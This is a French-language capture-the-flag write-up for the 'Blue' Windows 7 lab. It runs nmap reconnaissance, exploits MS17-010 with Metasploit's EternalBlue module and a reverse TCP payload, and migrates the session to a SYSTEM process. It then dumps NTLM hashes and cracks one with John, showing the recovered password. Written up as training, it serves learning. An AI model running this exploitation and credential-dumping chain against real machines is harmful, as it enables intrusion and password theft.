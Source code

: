 ```yaml
---
aliasses: Blue
tags:
  - Windows
  - Windows7
  - Exploit
  - EternalBlue
  - John
  - Metasploit
  - nmap
---
```

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.
## Reconnaissance

**nmap -sS -sV -sC -A -p- 10.10.26.169**

	PORT      STATE SERVICE            VERSION
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open  ssl/ms-wbt-server?
	49152/tcp open  msrpc              Microsoft Windows RPC
	49153/tcp open  msrpc              Microsoft Windows RPC
	49154/tcp open  msrpc              Microsoft Windows RPC
	49158/tcp open  msrpc              Microsoft Windows RPC
	49160/tcp open  msrpc              Microsoft Windows RPC

	HOST SCRIPT RESULTS:
	| smb-os-discovery: 
	|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
	|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
	|   Computer name: Jon-PC
	|   NetBIOS computer name: JON-PC\x00
	|   Workgroup: WORKGROUP\x00
	|_  System time: 2024-09-30T07:10:09-05:00
	|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02c7bfb92a2d (unknown)
	| smb2-security-mode: 
	|   210: 
	|_    Message signing enabled but not required
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-time: 
	|   date: 2024-09-30T12:10:09
	|_  start_date: 2024-09-30T12:06:40

On remarque que cet OS Windows 7 dans cette version 7601 Service Pack 1 est vulnérable à l'exploit [[MS17-010|EternalBlue]] ou [[MS17-010]].

## Gain d'accès sur la cible

L'exploit de cette vulnérabilité est disponible par défaut dans [[Metasploit]] sur le chemin "/exploit/windows/smb/ms17_010_eternalblue".

	msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.26.169
	msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
	msf6 exploit(windows/smb/ms17_010_eternalblue) > run

Après plusieurs reboot de la machine virtuelle et le setup du "DefangedMode" à false, l'exploit fonctionne et donne un meterpreter sur la cible.^DefangedMode

## Escalade de privilèges

Un module nommé "/multi/manage/shell_to_meterpreter" permet la conversion d'un [[Meterpreter]] en shell avec [[Metasploit]].
Le lancement de module en renseignant le paramètre "SESSION" permet d'upgrade le shell de cette session d'ID donné.

```
use /multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION [ID]
sessions -i [ID]
```

Une fois sur la cible avec le shell meterpreter, on peut ouvrir un shell dos en utilisant la commande : **shell**
On remarque en listant les processus avec [[ps]] qu'il y a des processus en cours d'exécution avec les droits NT AUTHORITY\SYSTEM vers lesquels il serait intéressant de migrer.

	meterpreter > ps
	
	Process List
	 PID   PPID  Name                  Arch  Session  User                          Path
	 ---   ----  ----                  ----  -------  ----                          ----
	 0     0     [System Process]
	 4     0     System                x64   0
	 100   664   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
	 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
	 568   560   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
	 664   608   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
	 728   616   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
	 908   712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
	 956   712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
	 1292  712   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
	 1336  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
	 1416  712   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
	 1488  712   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
	 1628  712   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
	 1952  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
	 2268  712   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
	 2320  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
	 2368  2268  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
	 2548  712   vds.exe               x64   0        NT AUTHORITY\SYSTEM
	
	meterpreter > migrate 1416
	[*] Migrating from 1292 to 1416...
	[*] Migration completed successfully.

## Cracking

On utilise ensuite notre accès afin de dump les hashs des mots de passe sur la machine (sous réserve que nous y sommes autorisés).

	hashdump
	
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Par la suite on utilise [[John]] afin de craquer ces hashs et retrouver les mots de passe des différents comptes de la machine cible.

	john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT mdps.txt
	
	Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
	Cracked 1 password hash (is in /opt/tools/john/run/john.pot), use "--show"
	alqfna22         (Jon)

On trouve le premier flag à la racine du volume "C:/" de la cible.
Le second est dans le dossier contenant les mots de passe Windows "C:/Windows/SYSTEM32/config" sous forme de fichiers nommés [[SAM]].
Enfin, le troisième se trouve dans les documents de l'utilisateur "Jon".